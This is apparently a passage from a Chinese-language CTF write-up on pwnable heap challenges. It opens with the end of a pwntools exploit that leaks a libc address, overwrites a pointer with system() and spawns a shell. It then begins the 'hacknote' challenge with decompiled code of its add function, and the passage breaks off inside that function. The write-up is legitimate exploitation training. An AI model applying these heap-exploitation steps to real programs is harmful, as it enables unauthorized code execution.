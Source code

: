 ```
show()
io.recvuntil('0 : ')
puts_addr = u64(io.recvuntil(":")[:6].ljust(8,'\x00'))

libc_base = puts_addr - libc.symbols['free']
system = libc_base + libc.symbols['system']

edit(0, 8, p64(system))
delete(3)

io.interactive()
```



## 0x0a pwnable_hacknote

还是道菜单堆题，但是这次只有添加、删除、输出三个功能了。

先来看看添加，会先malloc一块大小为8的空间，然后把返回的地址存入ptr数组中，然后将函数 `sub_804862B()` 的地址存入这块申请的空间，之后输入输入内容的大小，没有溢出，之后输入输入内容，并将chunk的content的地址存入先前申请的空间的第二个四字节处。

```
unsigned int add()
`{`
  int v0; // ebx
  int i; // [esp+Ch] [ebp-1Ch]
  int size; // [esp+10h] [ebp-18h]
  char buf[8]; // [esp+14h] [ebp-14h] BYREF
  unsigned int v5; // [esp+1Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  if ( dword_804A04C &lt;= 5 )
  `{`
    for ( i = 0; i &lt;= 4; ++i )
    `{`
      if ( !*(&amp;ptr + i) )
      `{`
        *(&amp;ptr + i) = malloc(8u);
        if ( !*(&amp;ptr + i) )
        `{`
          puts("Alloca Error");
          exit(-1);
        `}`
        *(_DWORD *)*(&amp;ptr + i) = sub_804862B;
        printf("Note size :");
        read(0, buf, 8u);
        size = atoi(buf);
        v0 = (int)*(&amp;ptr + i);
        *(_DWORD *)(v0 + 4) = malloc(size);
        if ( !*((_DWORD *)*(&amp;ptr + i) + 1) )
        `{`
          puts("Alloca Error");
          exit(-1);
        `}`
        printf("Content :");
        read(0, *((void **)*(&amp;ptr + i) + 1), size);
        puts("Success !");
        ++dword_804A04C;
        return __readgsdword(0x14u) ^ v5;
      `}`
    `}`
  `}`
  else
  `{`
```